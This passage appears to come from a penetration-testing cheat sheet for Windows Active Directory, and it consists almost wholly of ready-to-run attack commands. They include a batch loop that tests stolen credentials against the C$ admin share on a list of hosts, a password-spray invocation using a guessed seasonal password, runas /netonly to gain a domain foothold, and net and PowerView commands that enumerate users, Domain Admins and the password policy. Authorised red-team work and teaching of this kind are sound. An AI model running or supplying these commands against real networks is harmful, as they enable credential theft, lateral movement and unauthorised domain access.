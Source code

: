 `@FOR /F %s in (systems.txt) DO @net use \\%s\C$ /user:domain\username  
Password 1>NUL 2>&1 && @echo %s>>admin_access.txt && @net use 
/delete \\%s\C$ > NUL`

### Domain joined machine

`Invoke-DomainPasswordSpray -Password Spring2017`

## Non-domain joined testing

When you have an initial set of compromised creds run these from a Virtual Machine to place foothold on network as domain user.

### Shell with domain user privileges
`C:\runas.exe /netonly /user:BLAHDOMAIN\blahuser cmd.exe`

Make sure you use the FQDN of the domain and set the reg key as below.

### check dc: 
`nltest /dsgetdc:domain.local`

To change DC via registry to point at domain being tested:

HKEY_LOCAL_MACHINE
SYSTEM
CurrentControlSet
Services
Netlogon
Parameters
“SiteName“ > DC1.domain.com

### Create session for use with dumpsec
`net use \\10.0.0.1\ipc$ /user:domain.local\username password`

### Quick User lists and password policy enum

`net users /domain`

`net group /domain "Domain Admins"`

`net accounts /domain`

Note that the above commands do not work with runas. Below PowerView functions will work with runas.

### Powerview:

`. .\PowerView.ps1`

`Get-UserProperty -Properties samaccountname`

`Get-NetGroupMember`

`Get-DomainPolicy`
